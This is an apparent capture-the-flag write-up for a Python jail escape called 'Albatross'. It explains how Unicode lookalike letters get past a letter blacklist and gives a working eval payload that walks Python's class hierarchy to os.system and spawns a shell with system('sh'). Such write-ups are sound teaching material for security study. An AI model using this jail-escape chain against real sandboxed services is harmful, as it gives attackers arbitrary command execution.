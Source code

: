 # Albatross

A very tough Pyjail + Golf challenge.

Builtins are removed, meaning no top level functions, we're run inside eval, which means no assignments, all letters are blacklisted, as well as quotes and spaces.

The limit for the challenge was set at 102 chars. First, the letter blacklist. This was definitely the easiest, and we just had to use a 'fancy text generator', as Python appears to 'collapse' this text to regular ASCII before the length check but after the blacklist. Our initial method involved traversing the namespace twice, to reach open\(\) and the string 'flag.txt'.

This was over 200 chars, and didn't work due to Python not loading in the function correctly.

We realised we would have to pop a shell.

Traversing to system took us 120 chars, and that was without a string such as sh to run it with.

After a while, I spotted an os function earlier in the tree, and could use that to traverse to the os namespace, calling system from there. After that, it was a simple matter of getting any class, and substringing its **hash** method to get 'sh'.

```text
().__class__ - <class 'tuple'>
().__class__.__base__ - <class 'object'>
().__class__.__base__.__subclasses__()[127] - <class 'os._wrap_close'>
().__class__.__base__.__subclasses__()[127].close - <function _wrap_close.close at 0x7f74eb2eca70>
[*().__class__.__base__.__subclasses__()[127].close.__globals__.values()][42] - <built-in function system>
().__dir__()[1] - '__hash__'
().__dir__()[1][4:6] - 'sh'
[*().__class__.__base__.__subclasses__()[-5].close.__globals__.values()][42](().__dir__()[1][4:6]) - system('sh')
```

## flag{SH\*T_I\_h0pe\_ur\_n0t\_b1c...\_if\_y0u_@r3,\_th1$\_isn't\_th3\_fl@g}

